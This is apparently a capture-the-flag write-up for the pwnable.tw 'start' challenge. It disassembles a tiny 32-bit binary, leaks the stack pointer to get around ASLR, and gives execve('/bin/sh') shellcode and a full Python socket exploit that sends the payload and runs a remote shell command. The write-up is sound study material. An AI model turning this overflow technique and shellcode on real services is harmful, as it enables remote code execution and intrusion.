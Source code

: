 # `pwnable.tw`
 
## 1. `start`

We are given a single binary called "start".  Its disassembly is
remarkably terse:

```
$ objdump -d -Mintel start

start:     file format elf32-i386

Disassembly of section .text:

08048060 <_start>:
 8048060:	54                   	push   esp
 8048061:	68 9d 80 04 08       	push   0x804809d
 8048066:	31 c0                	xor    eax,eax
 8048068:	31 db                	xor    ebx,ebx
 804806a:	31 c9                	xor    ecx,ecx
 804806c:	31 d2                	xor    edx,edx
 804806e:	68 43 54 46 3a       	push   0x3a465443
 8048073:	68 74 68 65 20       	push   0x20656874
 8048078:	68 61 72 74 20       	push   0x20747261
 804807d:	68 73 20 73 74       	push   0x74732073
 8048082:	68 4c 65 74 27       	push   0x2774654c
 8048087:	89 e1                	mov    ecx,esp
 8048089:	b2 14                	mov    dl,0x14
 804808b:	b3 01                	mov    bl,0x1
 804808d:	b0 04                	mov    al,0x4
 804808f:	cd 80                	int    0x80
 8048091:	31 db                	xor    ebx,ebx
 8048093:	b2 3c                	mov    dl,0x3c
 8048095:	b0 03                	mov    al,0x3
 8048097:	cd 80                	int    0x80
 8048099:	83 c4 14             	add    esp,0x14
 804809c:	c3                   	ret    

0804809d <_exit>:
 804809d:	5c                   	pop    esp
 804809e:	31 c0                	xor    eax,eax
 80480a0:	40                   	inc    eax
 80480a1:	cd 80                	int    0x80
```

This looks like hand-rolled assembly.  We notice that the second
syscall at `0x8048097` will read 60 (0x3c) bytes from stdin to the
location stored in `esp`.  After this, we add 20 (0x14) bytes to esp
and then ret.  Thus if we input 20 'A's and then four bytes, those
next four bytes will overwrite the return address.

Thus in principle, if we include shellcode in our input, we can send
bytes 20-23 as the address of this shellcode.  However, we do not know
the address of our shellcode, since it is on the stack and ASLR is
enabled.

Because ASLR is enabled, the only addresses we know are the addresses
in the code.  Thus we have only a few options for what we can do:

* We can restart the whole program (by returning to `0x08048060`)

* We can print the top 20 bytes off the stack (by returning to
  `0x08048087`)

* We can read 60 more bytes of input into the location we just read
  (by returning to `0x08048093`)

These are only some basic options--for example, we could also return
to the middle of an instruction (for example, maybe the push
instructions) and find some instructions that don't appear in the
disassembly.  However, looking at only our basic options, we already
notice that the next thing on the stack after the return address we
are overwriting will in fact be the value of `esp`, as it was pushed
at the very start of the program!  Thus if we return to `0x08048087`,
we will see as the first four bytes printed, the old esp, i.e. the
stack pointer at the start of the program.

Furthermore, after this is printed, the program will again read 60
bytes to the current `esp` (which will be the same as the printed
`esp`).  So if on this second input we provide padding, a new return
address (based on the outputted esp), and then some shellcode, we
should be sorted:

```
"A"*20 + [4 byte return address] + [shellcode (up to 36 bytes)]
```

So there are two issues: what should our actual return address be, and
what shellcode do we use?

The start of this buffer will be the current `esp`, which is also the
original `esp` value which was outputted by the pfor.  The shellcode
starts at 24 bytes after this, so our input will look like:

```
"A"*20 + [outputted esp value + 24] + [shellcode (up to 36 bytes)]
```

Finally, since it seems stdin and stdout are here just being forwarded
to a socket, we should be able to just use a basic `execve("/bin/sh")`
shellcode to do the job.  For example:

```
$ cat ex.s
bits 32

mov byte al, 11
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
push edx
mov edx, esp
push ebx
mov ecx, esp
int 0x80
$ nasm -f bin -o /dev/stdout ex.s | wc -c
25
$ nasm -f bin -o ex ex.s
```

So this shellcode (now stored in the file `ex`) will be 25 bytes and
will fit just fine in our required space of 36 bytes.

So we can finish this off with a simple python program, `ex.py`, which
will take in three arguments:

* Host to connect to
* Port to connect on
* Shell command to run

```
$ cat ex.py
import sys, socket, time

f1 = open("p1", "rb")
p1 = f1.read()
f2 = open("ex", "rb")
p2 = f2.read()

ip = sys.argv[1]
port = int(sys.argv[2])
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("GOT1",s.recv(512))
s.send(p1)
data = s.recv(512)
print("GOT",data)
addr = int.from_bytes(data[:4], byteorder="little")
print(hex(addr))
addr += 24
ab = addr.to_bytes(4, byteorder="little")
time.sleep(4)
s.send(ab*7 + bytes([0x90]*6) + p2)
time.sleep(1)
s.send(bytes(sys.argv[3] + "\n","ascii"))
print("RX",s.recv(512))
```



## 2. `orw`

